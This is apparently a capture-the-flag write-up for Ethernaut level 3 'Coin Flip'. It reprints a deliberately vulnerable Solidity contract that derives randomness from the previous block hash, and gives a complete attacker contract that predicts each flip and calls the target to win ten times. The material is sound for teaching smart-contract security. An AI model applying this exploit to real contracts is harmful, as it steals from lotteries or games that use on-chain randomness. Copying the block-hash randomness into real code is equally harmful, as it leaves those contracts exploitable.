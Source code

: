 # Level 3: Coin Flip

This is the level 3 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites

- [Blocks](https://ethereum.org/en/developers/docs/blocks/) in Ethereum blockchain
- Solidity - interacting with a deployed contract at an address. Read [this](https://solidity-by-example.org/interface/) or better watch [this](https://www.youtube.com/watch?v=YWtT0MNHYhQ)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Basically, we need to predict outcome of coin flip correctly 10 times in a row to win.

The contract given tries to simulate random coin flip by generating `true` or `false` using the block number of network (Ropsten in our case). But this is not actually really random! You can very easily query the network to see the current block number.

Turns out random number generation is one of the serious pitfalls of blockchains due to deterministic nature. That's why there are dedicated services for the purpose like [Chainlink VRF](https://blog.chain.link/random-number-generation-solidity/).

Since this block number can be easily accessible, we can also generate the result of coin flip and feed this result to `flip` function to have a correct guess and increment `consecutiveWins`. We are able to do this because block time of the network will be long enough so that `block.number` doesn't change between function calls.

We'll write a solidity contract (on Remix IDE) with almost same coin-flip generation code `CoinFlipGuess` & call the `flip` of given `CoinFlip` contract at deployed instance address, with already determined result of flip:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
    uint256 public consecutiveWins = 0;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function coinFlipGuess(address _coinFlipAddr) external returns (uint256) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        bool isRight = ICoinFlip(_coinFlipAddr).flip(side);
        if (isRight) {
            consecutiveWins++;
        } else {
            consecutiveWins = 0;
        }

        return consecutiveWins;
    }
}
```

I'm keeping track of `consecutiveWins` in `CoinFlipGuess` too and returning it from `coinFlipGuess`, just so that I can see it increasing.

Remember to deploy the above contract on Ropsten network because the target - `CoinFlip` is on Ropsten too.

Get the instance address of give `CoinFlip` instance, so that we can give it to `coinFlipGuess` as param:

```javascript
contract.address();

// Output: <your-instance-address>
```

Now, simply call `coinFlipGuess` method (on Remix) with `<your-instance-address>` as only parameter, 10 times with successful transaction.

Go back to console and query `consecutiveWins` from `CoinFlip` instance:

```javascript
await contract.consecutiveWins().then((v) => v.toString());

// Output: '10'
```

You may be tempted to run a loop to call `coinFlipGuess` 10 times automatically, but it won't work because of the guard `if` statement in `CoinFlip`:

```

if (lastHash == blockValue) {
   revert();
}
```

The invocation will revert if block number was same as in previous invocation. Since `lastHash` / `blockValue` is derived from `block.number`.

Game rigged successfully.
